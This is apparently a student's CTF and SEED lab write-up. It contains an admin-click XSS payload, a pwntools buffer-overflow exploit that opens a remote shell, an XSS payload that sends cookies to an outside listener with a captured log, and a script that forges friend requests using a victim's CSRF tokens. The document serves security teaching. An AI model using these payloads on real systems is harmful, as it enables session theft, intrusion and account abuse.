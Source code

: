 # Trabalho Realizado na Semana 10

## CTF

### Desafio 1

For this challenge, after we send a justification, we go to a page where the admin can give the flag and mark the request as read. These buttons are only enbaled to the admin so our purpose is to make the admin click the button `Give Flag` for us. For that, we can use the justification: `<script>document.getElementById('giveflag').click()</script>`, which will try to click the button everytime someone enters the page.

When the admin goes to evaluate the request, the script will click the button, and as it will be enabled, the flag will be given to us.

Flag:
```
flag{754649a1f0ffcd9943a6fafb3ca59853}
```

### Desafio 2

This is a simple shellcode execution attack. We have a buffer of 100 bytes, which is large enough to store our shellcode, and the program prints the buffer base address, which we can use as return address.

The smplified payload would be: `shellcode + trash + buffer address`

To get the return address offset, we used the following python script:

```py
from pwn import *

context.update(arch='i386', os='linux')

p = process("./program")
gdb.attach(p)
pause()

p.sendline(cyclic(150))
p.interactive()
```

From this, the program crashes at `daab`. Using this value in the function `cyclic_find` we get the offset, which is 112.

With the offset, we can now build our script to open the shell on the server:

```py
from pwn import *

context.update(arch='i386', os='linux')

LOCAL = False

if LOCAL:
    p = process("./program")
    gdb.attach(p)
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4001)

p.recvuntil(b"Your buffer is ")
buffer = p.recvuntil(b".")[:-1]
buffer = (int(buffer, 16))

shellcode = shellcraft.sh()
shellcode = asm(shellcode)

payload = shellcode + b'\x00' * (cyclic_find('daab') - len(shellcode) - 4)
payload += p32(buffer)

p.sendline(payload)
p.interactive()
```

This successfully opens a shell in the server, and using the command `cat flag.txt` we get the flag.

Flag:
```
flag{5155603df944885d37463ad476a1accd}
```

---

## Cross-Site Scripting (XSS) Attack Lab

### Task 1

For this task we just needed to log in as any one of the users in the database (with the credentials given) and edit the user's description to have the following text:

```html
<script>alert('XSS');</script>
```

This will trigger an alert message when any user enters that profile.

### Task 2

With the following description, whenever a user joins that profile, their cookies will be displayed in an alert window:

```html
<script>alert(document.cookie);</script>
```

Cookies example:
```
pvisitor=a02dec0a-c90f-4a12-acaa-ca277c1f8a1d; PHPSESSID=j5u1i90e7ve1umqhfil26rsuk6; Elgg=1sof8kijmob8riqak3r8qaku3e
```

### Task 3

For this task we will use the following description:

```html
<script>
    document.write('<img src=http://10.9.0.1:5555?c='+ escape(document.cookie) + ' >');
</script>
```

Using the `nc -lknv 5555` command, we can listen to the TCP port 5555, and get the cookies of the other users:
```
Connection received on 10.0.2.4 34434
GET /?c=pvisitor%3Da02dec0a-c90f-4a12-acaa-ca277c1f8a1d%3B%20PHPSESSID%3Dj5u1i90e7ve1umqhfil26rsuk6%3B%20Elgg%3D0gdcs8aalkh93malsee9c88pld HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/profile/alice
```

### Task 4

In order to make any user send a friend request whenever accessing `samy`'s profile, we need to change his `About Me` to the following:

```html
<script type="text/javascript">
    window.onload = function () {
        var Ajax = null;
        var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
        var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

        //Construct the HTTP request to add Samy as a friend.
        var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;

        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

With this script, any user that joins the profile automatically sends a friend request.

#### Question 1

Lines 1 and 2 are used to authenticate the user whenever the request is made to the url. Each user has security tokens that are used in order to prevent other users from making requests in their name. This ensures that the requests are actually being sent by the user. Without them, the request would fail.

#### Question 2

No, if the Elgg application only provided the Editor mode for the “About me” field, the attack would not be successful because the Editor mode adds extra HTML and changes some of the symbols, such as `<` to `&gt;`.
